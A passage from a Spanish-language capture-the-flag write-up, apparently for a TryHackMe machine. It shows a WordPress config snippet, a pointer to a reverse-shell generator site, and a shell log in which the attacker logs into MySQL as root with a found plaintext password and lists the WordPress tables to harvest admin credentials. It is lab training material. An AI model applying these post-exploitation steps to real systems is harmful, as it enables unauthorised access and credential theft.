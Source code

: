 ```php

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Para tener mejor shell utilizar reverse shell con Python3 generado por la siguiente página https://www.revshells.com/


Luego obtenemos los credenciales del administrador una vez que entramos a la base de datos
```
apache@tryhackme:/data/www/default$ mysql -h localhost -u root -p
mysql -h localhost -u root -p
Enter password: lamp.sh

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 5.7.44 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
| wordpress          |
+--------------------+
6 rows in set (0.13 sec)


mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
```